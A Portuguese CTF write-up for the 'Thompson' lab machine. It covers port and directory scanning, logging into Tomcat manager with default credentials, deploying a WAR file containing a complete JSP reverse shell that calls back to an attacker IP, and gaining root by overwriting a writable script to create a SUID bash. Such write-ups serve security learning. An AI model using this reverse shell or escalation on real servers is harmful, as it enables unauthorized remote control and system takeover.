 # _**Thompson**_
![](thomp.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Vamos investigar o site na porta 8080 com um scan <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address]:8080 -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Vamos visitar primeiro, <mark>favicon.ico</mark>  

![](fav_ico.jpg)  
Apenas o ícone do Tomcat

Vamos para os 2 que parecem ser os mais importantes, <mark>/manager</mark> e <mark>/host-manager</mark>  

![](manager.jpg)

Uma senha é requisitada  
Como não tenho conhecimento de usuário e senha, apenas clico em cancelar. Isso me leva a uma página de erro  

![](error.jpg)

Podemos observar o seguinte:  
* usuário: <mark>tomcat</mark>  
* senha: <mark>s3cret</mark>

Vamos tentar as credenciais básicas de login   

![](login_successful.jpg)

## _**Ganhando acesso**_
Das aplicações listadas, temos uma especificamente que chama a atenção
> /hgkFDt6wiHIUB29WWEON5PA

Vamos acessar  
Nada encontrado  
Outra situação que chama atenção é a possibilidade de fazer upload de arquivos do tipo _.war_  
Podemos criar um destes arquivos para obter um _shell reverso_ com <mark>netcat</mark>  

Primeiro, vamos montar o script _.jsp_
>
```bash
<%@ page import="java.io.*, java.net.*" %>
<%
	String host = "10.9.2.138"; // seu IP
	int port = 4444;    	// porta que você vai escutar
	String cmd = "/bin/sh"; // para Linux (se for Windows, seria "cmd.exe")
    
	Socket socket = new Socket(host, port);
	Process process = new ProcessBuilder(cmd).redirectErrorStream(true).start();
    
	InputStream pi = process.getInputStream(), pe = process.getErrorStream(), si = socket.getInputStream();
	OutputStream po = process.getOutputStream(), so = socket.getOutputStream();
    
	while (!socket.isClosed()) {
    	while (pi.available() > 0) so.write(pi.read());
    	while (pe.available() > 0) so.write(pe.read());
    	while (si.available() > 0) po.write(si.read());
    	so.flush();
    	po.flush();
    	Thread.sleep(50);
    	try {
        	process.exitValue();
        	break;
    	} catch (Exception e) {
    	}
	}
	process.destroy();
	socket.close();
%>
```
>

Agora, vamos enviar tudo para uma pasta de nome _**meushell**_  
Vamos criar uma segunda pasta com nome _**WEB-INF**_ e colocar um arquivo _.xml_
>
```
<web-app>
	<servlet>
    	<servlet-name>meushell</servlet-name>
    	<jsp-file>/meushell.jsp</jsp-file>
	</servlet>
	<servlet-mapping>
    	<servlet-name>meushell</servlet-name>
    	<url-pattern>/meushell.jsp</url-pattern>
	</servlet-mapping>
</web-app>
```
>

Vamos usar o comando ```jar -cfv meushell.war *``` para empacotar nossos arquivos  
Em seguida, vamos realizar upload do arquivo para o site  

![](upload.jpg)

Após, usamos ```netcat``` para esperarmos uma conexão  
E por fim, acessamos o site http://[ip_address]:8080/meushell/reverse_shell.jsp  

![](reverse_shell.jpg)

Assim, obtemos um _shell reverso_  
E também, a primeira _flag_  

![](flag1.jpg)

## _**Escalando privilégios**_
Agora para _root.txt_, vamos precisar escalar privilégios  
Por se tratar de uma shell “pobre”, não podemos executar comandos como ```sudo -l``` para verificar permissões  

Investigando o usuário Jack, do qual podemos verificar seus arquivos, encontramos em sua _/home_  
2 arquivos que parecem ser importantes: _id.sh_ e _test.txt_  
Dando o comando ```cat``` no primeiro, temos a execução de um script e se dermos ```cat``` no segundo, é retornado o ```id```  

![](cat_return.jpg)  

Verificando as permissões de ambos arquivos, temos:  

![](chmod.jpg)  

Podemos alterar o arquivo _id.sh_  
Vamos executar estes dois comandos abaixo para conseguirmos acesso _root_
> ```bash
> echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /home/jack/id.sh
> ```
> ```bash
> chmod +x /home/jack/id.sh
> ```

O primeiro modifica _id.sh_ para criar um _binário SUID_  
O segundo dá permissões de execução, porém, essa parte não acontece  
Vamos então, novamente executar ```cat``` no arquivo _id.sh_ e em seguida, ```/tmp/rootbash -p```  

![](root_access.jpg)

E assim, obtemos a segunda _flag!_
